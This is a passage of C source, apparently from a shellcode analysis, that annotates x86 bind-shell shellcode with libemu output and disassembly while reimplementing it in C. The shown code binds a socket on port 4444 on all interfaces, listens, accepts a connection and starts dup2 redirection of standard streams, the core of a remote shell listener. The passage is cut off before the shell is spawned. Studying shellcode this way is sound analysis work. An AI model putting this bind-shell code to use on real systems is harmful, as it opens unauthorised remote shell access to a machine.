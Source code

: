 ```c	
     0000001B  89E1          mov ecx,esp    ; ecx, ptr to args
     0000001D  6A66          push byte +0x66 ; socketcall()
     0000001F  58            pop eax        ; eax, socketcall()
     00000020  CD80          int 0x80       ; make the call
    */
    hostaddr.sin_family = AF_INET;        
    hostaddr.sin_port = htons(4444);     
    hostaddr.sin_addr.s_addr = INADDR_ANY;
    memset(&(hostaddr.sin_zero), '\0', 8);
    bind(sockfd, (struct sockaddr *)&hostaddr,
        sizeof(struct sockaddr));
      
    /*
     listen:
     int listen(int sockfd, int backlog);
 
     libemu:
       int listen (
         int s = 14;
         int backlog = 0;
       )
     00000022  894104        mov [ecx+0x4],eax ;backlog -ecx,ptr to args
     00000025  B304          mov bl,0x4     ; listen()
     00000027  B066          mov al,0x66    ; socketcall()
     00000029  CD80          int 0x80       ; make the call    
    */
    listen(sockfd, 1);
      
    /*
     accept:
     int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
     
     libemu:
       int accept (
         int sockfd = 14;
         sockaddr_in * addr = 0x00000000 => 
           none;
         int addrlen = 0x00000010 => 
           none;
        )
     0000002B  43            inc ebx        ; accept() -ecx,ptr to args
     0000002C  B066          mov al,0x66    ; socketcall()
     0000002E  CD80          int 0x80       ; make the call
    */
    sinsz = sizeof(struct sockaddr_in);
    dupsockfd = accept(sockfd,
        (struct sockaddr *)&clientaddr, &sinsz);
  
    /*
     dup2:
     int dup2(int oldfd, int newfd);
     
     libemu:
       int dup2 (
         int oldfd = 19;
         int newfd = 0;
       )
     00000030  93            xchg eax,ebx    ; exchange ebx with eax
     00000031  59            pop ecx         ; counter
     LBL1:
     00000032  6A3F          push byte +0x3f ; dup2()
     00000034  58            pop eax         ; dup2()
     00000035  CD80          int 0x80        ; make the call
```